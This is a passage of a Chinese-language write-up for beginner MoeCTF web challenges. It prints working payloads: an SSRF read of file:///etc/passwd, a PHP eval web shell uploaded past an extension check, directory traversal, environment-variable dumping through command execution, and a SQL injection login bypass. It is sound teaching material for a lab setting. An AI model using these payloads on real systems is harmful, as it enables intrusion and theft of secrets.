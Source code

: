 ```python
    response = requests.post(url, json=data)
    print('Status Code:', response.status_code)
    print('Response JSON:', response.json())
```

## ImageCloud前置

经典的ssrf `payload: file:///etc/passwd` 即可获得flag

## 垫刀之路01: MoeCTF？启动！

这题开始是一共 7 题的垫刀之路系列，考点单一，重点是让大家学到东西。

第一题题目提示是远程命令执行，我们在上面运行的所有东西都是直接直接作为 linux 命令执行后返回结果。所以我们可以直接使用 `cat /flag` 命令，得到提示，flag 在环境变量里。我们使用以下命令都可以：

```bash
env
printenv
echo $FLAG
```

## 垫刀之路02: 普通的文件上传

这题是文件上传，暂时没有过滤，所以我们构建一个 php 文件，比如 `evil.php` ，内容为：

```php
<?php eval($_POST[1]);
```

然后根据题目提示，访问 `uploads/evil.php` ，然后提交 post 参数 `1=system('env');` 即可。

## 垫刀之路03: 这是一个图床

这题和上题类似，区别是前端要求我们后缀名为 jpg/png/gif，后端限制 MIME 格式为 `image/jpeg` 之类的。我们直接上传 jpg 文件，那么最终服务器是不会解析 jpg 文件的。所以我们先把 `evil.php` 改名为 `evil.jpg`，然后上传，在过程中，我们使用 burpsuite 拦截，然后把文件名改为 `evil.php`，然后发送即可。

## 垫刀之路04: 一个文件浏览器

这题看到的是一堆文件和文件夹。题目提示说注意看 readme 文件。我们访问 `src/readme.md` ，可以看到下面有一些英文注释，提醒这个文件夹是没用的。其实整个显示的文件夹都是没用的，里面是我随便塞的一个文件。ctf 题目通常和题目具体提供的服务没太大关系，反而需要关注到提供服务过程中暴露出的漏洞。比如说这一题，url 中出现了参数 `?path=src`, 那么这题可能和**目录穿越漏洞**有关。我们直接 `?path=../../../../../` 看见根目录文件即可。

最后顺着题目的线索，我们访问 `/tmp/flag` 即可。这个位置有点偏，但我觉得无伤大雅。毕竟已经可视化文件目录里，找一下也无所谓吧，就当时给其他题往这里藏 flag 的心理准备吧。

## 垫刀之路05: 登陆网站

这题是一个登陆页面。题目要求我们只要登陆成功即可。题目还提示我们登陆的账号名，以及密码不好破译。但是这样表述可能有点问题，有的人可能因此还是去爆破了。但是只是为了登陆，我们要想到**sql注入**。

具体过程不展示，总之就是单引号的万能密码：

```
1' or '1'='1
```

